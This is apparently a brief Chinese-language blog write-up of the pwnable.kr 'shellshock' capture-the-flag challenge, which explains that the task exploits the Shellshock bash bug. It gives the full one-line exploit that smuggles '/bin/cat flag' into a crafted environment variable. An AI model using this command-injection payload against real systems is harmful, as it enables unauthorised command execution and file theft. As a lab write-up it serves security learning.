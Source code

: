 ```yaml
---
title: shellshock
author: rk700
layout: post
tags:
  - linux
  - pwnable.kr
---
```

好吧，从这名字就知道是怎么回事儿了，前端时间爆出来的shellshock漏洞。我们需要执行`cat flag`就行。不过我开始试`cat`会说找不到文件，于是用`/bin/cat`了

<pre>$ env x='() { :;}; /bin/cat flag' ./shellshock</pre>
